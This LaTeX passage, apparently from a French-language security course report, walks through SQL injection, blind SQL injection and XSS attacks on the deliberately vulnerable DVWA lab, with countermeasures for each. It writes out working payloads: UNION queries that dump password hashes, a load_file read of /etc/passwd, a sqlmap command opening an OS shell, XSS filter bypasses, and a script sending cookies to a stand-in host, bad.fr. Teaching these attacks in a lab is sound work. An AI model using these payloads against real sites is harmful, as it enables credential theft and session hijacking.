
\newpage
\section{Injection SQL }


\subsection{Description}




L'injection SQL, en anglais SQL  injection, ou SQLi en abrégé, est l'attaque la plus critique au sens du classement de l' Open Web Application Security Project (OWASP) . Comme pour le Cross Site Scripting présenté dans la suite de ce document, il s'agit ici de tirer parti de l'absence de filtrage des entrées utilisateurs. Cette absence de contrôles permet à un hacker d'insérer du code qui sera interprété par l'analyseur cible, par exemple SQL.




\paragraph{}
Dans la cas particulier de l'injection SQL et du site DVWA, les requêtes SQL, imbriquées dans des scripts PHP qui récupèrent les saisies des utilisateurs, peuvent être détournées sur la base de la syntaxe du langage. 

\begin{figure}[!h]
	\begin{center}
		
\includegraphics[scale=0.72]{images/bd.png}
		\caption{source : \url{https://xkcd.com/327/}}
	\end{center}
\end{figure}


\subsection{Exploitation}

\subsubsection{DVWA - Security level "low"}

La base de données contient 5 utilisateurs identifiés par les entiers de 1 à 5.
La mission proposée par le DVWA est de voler leurs mots de passe par injection SQL.

On règle la "DVWA security" sur low de manière à avoir un site web "damn vulnerable".
On saisit dans le champ User Id, une simple apostrophe i.e. '. Le site retourne le message
"\it {You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1}"

\paragraph{}Cette simple apostrophe démontre que le site est vulnérable pour deux raisons : d'abord on sait que nos saisies sont interprétées directement par l'analyseur SQL ; elle ne sont pas filtrées. Ensuite parce que le site est "bavard".

\begin{figure}[!h]
	\begin{center}
		\label{}
		
\includegraphics[scale=\scaledvwa]{images/sql/sqli1.png}
		\caption{Les saisies incorrectes donnent lieu à un message d'erreur SQL qui informe le hacker potentiel de l'absence de protection contre les SQLi. D'autres informations importantes sont dévoilées comme le type de base de donnée, ici MariaDB, version libre de MySql rachetée par Oracle.}
	\end{center}
\end{figure}

Un clic sur le bouton "View Source" affiche le code PHP de la page. On constate, en effet, qu'on peut saisir n'importe quoi dans le champ User Id, il sera transmis sans modification à la requête \$query via \$id.   

\begin{figure}[!h]
	\begin{center}
		\label{}
		
\includegraphics[scale=0.8]{images/sql/code_low.png}
	\end{center}
\end{figure}



\begin{figure}[!h]
	\begin{center}
		\label{}
		
\includegraphics[scale=\scaledvwa]{images/sql/sqli_low.png}
		\caption{Vol des mots de passe par l'injection SQLi sur site non protégé.}
	\end{center}
\end{figure}

L'injection SQL suivante :
{\color{red}

\begin{verbatim}
   ' UNION select password, last_name from users#
\end{verbatim}
}

%  a' UNION SELECT password,last_name from users;-- -&Submit=Submit
% url correspondante 
%  ?id='+UNION+SELECT+password%2Clast_name+from+users%23&Submit=Submit#

donne la requête suivante en remplaçant \$id dans le script PHP :

{\color{red}
\begin{verbatim}
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '' UNION 
           SELECT password, last_name from users#   ';"; 
\end{verbatim}
}
Elle indique donc qu'on effectue l'union au sens mathématique des éléments recueillis par les deux requêtes. Le premier SELECT donne l'ensemble vide, le second donne tous les mots de passe et noms de la table users. On obtient donc les mots de passe faussement associés au champ "First name". Ces mots de passe sont cryptés. On pourra utiliser des techniques de révélation par ingénieurie sociales, recherche internet, force brute, dictionnaires ou rainbow tables. L'outil John the ripper peut entrer en action. On note que Smith est certainement aussi admin car ces deux noms d'utilisateurs ont le même hash donc le même mot de passe. Le hacker peut être confiant quant à la suite des opération car Smith ne semble pas être un adepte de la SSI. Le caractère \# en fin d'injection évite que PHP n'interprête la suite du code en particulier les caractères apostrophes et guillements qui donneraient une erreur SQL.

NB : C'est une technique répandue que de forcer l'analyseur SQL à ignorer le reste de la requête, en utilisant le symbole commentaire SQL double tiret - - les symboles de commentaires PHP dièse \#, {/* */}, {//} pour assurer que ce qui suit l'injection ne sera pas interprété.  



\paragraph{}
Un injection SQL peut aussi donner accès au système de fichier comme le montre l'injection ci-après :
\begin{verbatim} [ ' UNION ALL SELECT load_file('/etc/passwd'),null # ] \end{verbatim}

\begin{figure}[!h]
	\begin{center}
		\label{}
		
\includegraphics[scale=\scaledvwa]{images/sql/sqli_low2.png}
		\caption{Récupération du fichier /etc/passwd via la commande load\_file : }
	\end{center}
\end{figure}




% ?id=a UNION SELECT password,last_name from users;-- -&Submit=Submit
% ?id=a %27UNION SELECT password,last_name from users#






\subsubsection{DVWA - Security level "Medium" et "High"}

Pour récupérer les mots de passe lorsque l'on règle le niveau de sécurité de DVWA sur "haut" et "medium", on utilise une combinaison des outils "Burp suite" et "sqlmap" fournis par kali linux. Le navigateur doit être configuré en utilisant ce proxy Burp suite, à savoir 127.0.0.1:8080. Cela permet l'interception des requêtes POST qui est alors copiée dans un fichier toto.txt utilisé ensuite dans la commande.

\begin{verbatim}
sqlmap -r ./toto.txt –dbs -D dvwa –dump all –os-shell
\end{verbatim}


\subsection{Contre-mesures}

Un certain nombre de règles permettent de se prémunir des attaques par injection de commandes SQL :
Pour se prémunir des injections SQL, on peut appliquer les principes suivants :
 \begin{itemize}[font=\color{magenta} \Large, label=\ding{43}]
	\item Vérifier le format des données saisies et notamment
	la présence de caractères spéciaux, 
	\item Éviter les comptes sans mot de passe,
	\item Ne pas afficher de messages d’erreur explicites affichant la requête ou une partie de la requête SQL,
	\item Supprimer les comptes utilisateurs non utilisés, notamment les comptes par défaut,
	\item Utiliser un firewall Applicatif de type mod\_security
    \item Désactiver l’option Load\_File.
\end{itemize}


Sur le plan pratique, un premier niveau de protection consiste à vouloir utiliser un outil comme mysqli\_real\_escape\_string() qui "échappe" les caractères indésirables : apostrophes, guillemets. Cette technique utilisée par DVWA - Medium level reste cependant vulnérable.

\begin{verbatim}
En effet, en utilisant l’HTTP URL Encoding, un espace devient 
un %20 dans l’URL, un  “!” devient un %21, une apostrophe %27, etc.
Cela nous permet donc ici de faire passer une guillemet ou une 
apostrophe de façon encodée pour ne pas qu’ils soient détectés 
et échappés par la fonction mysql_real_escape_string.
\end{verbatim}

Plus efficace est l'utilisation des "prepared statement". DVWA, level "impossible", utilise la classe \href{https://secure.php.net/manual/fr/class.pdostatement.php}{PDOStatment} pour préparer les requêtes et ainsi séparer le code des données.  


\begin{figure}[!h]
	\begin{center}
		\label{}
		
\includegraphics[scale=0.6]{images/sql/sqli_impossible.png}
	\end{center}
\end{figure}



% % % % % % % % % % % % % % % % % % % % % % % % % % % % % % % % % % % % % % % % % % % % %


\section{Injection SQL aveugle}

\subsection{Description}

Les injections SQL aveugles, ou "blind SQL" en anglais, qu'on peut nommer BSQLi en abrégé,  sont des techniques utilisées lorsque le serveur n'est pas "bavard". Sur le plan du code PHP, il suffit de retirer la ligne de code suivante qui affiche dans une page html les erreurs SQL : 
\begin{verbatim}
or die('<pre>' . mysql_error() . '</pre>' );
\end{verbatim} 




\subsection{Exploitation}
Les attaques sur DVWA - level "low", se font progressivement. Elles nécessitent beaucoup plus de requêtes sur la base de donnée, ce qui pose un problème de discrétion pour l'attaquant. Une meilleure connaissance de SQL est aussi impérative. Ainsi, une attaque BSQLi manuelle effectuée sur le User ID de DVWA, visant à déterminer le nombre  de champs de la requête, en vue de faire une UNION, utilisera une injection "ORDER BY".

\begin{verbatim}
L'injection [ ' ORDER BY 1 # ], sans les crochets, ne renvoie rien,  par contre 
[ ' ORDER BY 3 # ] affiche "Unknown column '3' in 'order clause' ". 
La requête du script PHP utilise donc deux champs.
\end{verbatim} 

\begin{verbatim}
Ensuite, des injections [ ' UNION SELECT password, last_name FROM xxxx # ]
où xxxx désigne un nom de table évocant une liste d'utilisateurs ; on testera
utilisateurs, users, user, etc
\end{verbatim} 

\begin{verbatim}
Des injections [ ' UNION SELECT password, last_name FROM users 
WHERE LENGTH(password) = longeur # ] avec longueur = 1, 2, 3, ... 
vont permettre, itérativement, de connaître la taille du mot de passe.
\end{verbatim} 

\begin{verbatim}
Des injections [ ' UNION SELECT password, last_name FROM users 
WHERE LENGTH(password) = 8 AND SUBSTRING(password,1,1)='a' # ] 
testent si le mot de passe commence par "a".
\end{verbatim} 
\subsection{Contre-mesure}

On le voit ce type d'attaques peut devenir rapidement fastidieuses, voire impraticables. Une approche médiane consiste à écrire des scripts en python important des modules comme httplib et urllib.

Enfin, des produits sur étagères comme Burp suite/sqlmap ou, mieux,   \href{www.itsecteam.com}{havij} permettent de s'attaquer aux niveaux "Low", "Medium" "High" de manière plus efficace. Havij est cependant un outil windows ; Sous fedora 26, on doit installer une machine virtuelle windows ;  l'utilisation de wine est quant à elle souvent hasardeuse.
% % % % % % % % % % % % % % % % % % % % % % % % % % % % % % % % % % % % % % % % % % % % %


\section{Attaques Reflected XSS (non persistante)}

\subsection{Description}
Le Cross Site Scripting fait partie de la catégorie des attaques par injection au même titre que le SQLi décrit plus haut. Le Cross Site Scripting est désigné par l'acronyme XSS car CSS était déjà utilisé. Le terme XSS est en fait mal choisi car l'attaque n'implique pas forcément plusieurs sites. En outre, un cracker peut entreprendre des attaques XSS en JavaScript mais aussi à l'aide d’autres langages ou sans utiliser les balises <script></script>.

\paragraph{} Pourquoi cette dénomination ? Parce que l'un des objectifs de l'attaque est d’exécuter un script permettant de "faire traverser" des données, c'est à dire transmettre des données, to cross en anglais, depuis un site vers un autre. 

\begin{figure}[H] % H pour éviter qu'un paragraphe soit interrompu par l'image
	\begin{center} 
		
\includegraphics[scale=\scalekad]{images/xss/reflected_xss}
		\caption{Reflected XSS}
		\label{reflected_xss}  % label apres le caption pour éviter pb de num
	\end{center}
\end{figure}


\paragraph{} Pourquoi l'attaque est-elle qualifiée de réfléchie ? Parce que l'attaque est comme réfléchie par le serveur web. La figure~\ref{reflected_xss} indique que l'opération comprend 5 étapes :


\begin{enumerate}
	\item   Envoi d'un lien piégé par mail. 
	\item La victime clique sur le lien.
	\item Le serveur répond en envoyant la page demandée avec le code du hacker injecté dans l'URI. Si le site est vulnérable, c'est à dire si les données sont incluses telles quelles dans la page de résultat, donc sans encodage des symboles propres à HTML, le code sera interprétable par le navigateur de la victime.
	\item Le navigateur de la victime exécute le code de la page car il est censé provenir d'un serveur de confiance. 
	\item Envoi des données de la victime  vers le hacker : cookies, ...
\end{enumerate}
 


\paragraph{} Pourquoi la non persistance ? Parce que le script malicieux n'est pas stocké sur le serveur web. On ne le trouvera pas dans un fichier, une base de donnée ou un message de forum. Le script malicieux ou sa référence sont transmis dans une URI. C'est cette URI qui est transmise dans le mail frauduleux. Le cracker devra connaître les adresses mail de ses victimes. Ce n'est pas le cas pour le stored XSS puisque tout visiteur du site piégé chargera une page avec le script enregistré sur le disque du serveur. 



\paragraph{} Parmi le conséquences possibles, on peut citer :
 

\begin{enumerate}
	\item Le vol de cookies, de session, de compte, de fichiers. 
	\item L'installation de chevaux de Troye.
	\item Le défaçage de site.
	\item Installer des key loggers
\end{enumerate}



\subsection{Exploitation}

\subsubsection{DVWA - Security level "Low"}

Pour vérifier la vulnérabilité d'un site aux attaques XSS, il suffit de s'assurer que le html est transmis tel quel. Si on saisit par exemple <b>toto</b>toto dans un champ de recherche du site et qu'il nous renvoie \textbf{toto}toto, on constate que le code html est bien interprété puisque seul le 1er toto apparaît en gras.  Le site est donc vulnérable. 



\begin{figure}[H]
	\begin{center}
		\label{}
		
\includegraphics[scale=\scaledvwa]{images/xss/hack1.png}
		\caption{Exemple d'injections html montrant la vulnérabilité de DVWA-Low : <img src=http://192.168.1.8/hacked.jpeg />} 
	\end{center}
\end{figure}

\begin{figure}[H]
	\begin{center}
		
\includegraphics[scale=\scaledvwa]{images/xss/hack2.png}
		\caption{Exemple d'injections javascript montrant la vulnérabilité de DVWA-Low : <script>alert('coucou')</script>} 
		\label{hack2}
	\end{center}
\end{figure}

\subsubsection{DVWA - Security level "Medium"}
Au niveau Medium, la protection utilisée utilise la fonction  str\_replace()
qui remplace <script> par le vide.  
\begin{verbatim}
 $name = str_replace( '<script>', '', $_GET[ 'name' ] ); 
\end{verbatim}
Cette protection est facilement contournable en injectant le code
<scr<script>ipt>alert('coucou')</script> ou du code html <body onload=alert("coucou")>. Ce qui donne le même résultat
que précédemment illustré par la figure~\ref{hack2}. 

\subsubsection{DVWA - Security level "High"}

Au niveau High, le filtrage est effectué par des expressions rationnelles.
Cette technique n'est pas très sure non plus puisque le code html suivant
<img src=x onError=alert('coucou')>, contourne la contre-mesure.


\subsubsection{DVWA - Security level "Impossible"}

Ce niveau utilise notamment la fonction htmlspecialchars() qui assure le transcodage html ; cette solution permet d'assurer une meilleure protection du site web.
\begin{figure}[H]
	\begin{center}
		
\includegraphics[scale=\scaledvwa]{images/xss/hack3.png}
		\caption{Exemple d'injection javascript montrant la non vulnérabilité de DVWA-Impossible : <img src=x onError=alert('coucou')>} 
		\label{hack3}
	\end{center}
\end{figure}

\subsection{Contre-mesure}

Côté client, pour se prémunir des injections XSS, il est possible de configurer le navigateur de manière à empêcher l'exécution des langages de scripts mais alors de nombreux sites dynamiques ne pourront pas fonctionner correctement. C'est donc bien la vulnérabilité du serveur web qu'il faut corriger.


Du côté serveur, on peut appliquer les principes suivants :
\begin{itemize}[font=\color{magenta} \Large, label=\ding{43}]
	\item Encoder les données utilisateurs affichées en remplaçant les caractères spéciaux par leurs équivalents HTML. En PHP, utiliser les fonctions htmlentities() ou htmlspecialchars().​ 
	\item Installer un pare-feux applicatif capable de filtrer les flux HTTP afin de détecter les requêtes suspectes.

\end{itemize}



% % % % % % % % % % % % % % % % % % % % % % % % % % % % % % % % % % % % % %
\newpage
\section{Stored XSS (persistante)  }


\subsection{Description}

Dans ce type d'attaque, les données fournies par l'utilisateur sont enregistrées sur le serveur et non simplement transmises dans une URI. Un individu malveillant peut entrer des données, enregistrées comme dans un livre d'or, mais qui sont en fait du code interprétable par les navigateurs : javascript, html, etc. Lorsque qu'un internaute consultera ces données, le code injecté sera chargé dans la page demandée et interprété par le navigateur de la victime. Les sites vulnérables vis à vis des ces atttaques XSS présentent un faille appelée parfois “Faille du livre d’or“. Cette faille existe dès lors que le site web fait confiance aux utilisateurs. Une seule injection permet d'atteindre un grand nombre de victimes sans avoir à recourir à l'ingénierie sociale nécessaire lors des attaques reflected XSS. Il est donc primordial que toutes les données reçues par l'application web soient encodées.


\paragraph{Exemple de stored XSS :} 
Un cracker écrit un post sur le blog d'un site vulnérable, le contenu ci-dessous :
\begin{verbatim}
blablabla. <script>location.href='http://bad.fr/?cookie='+document.cookie</script>
\end{verbatim}
L'attaquant récupèrera les valeurs des cookies de tous les futurs lecteurs de son poste.
La figure~\ref{stored_xss} illustre ce principe dans le cas général.

\begin{figure}[!h]
	\begin{center}
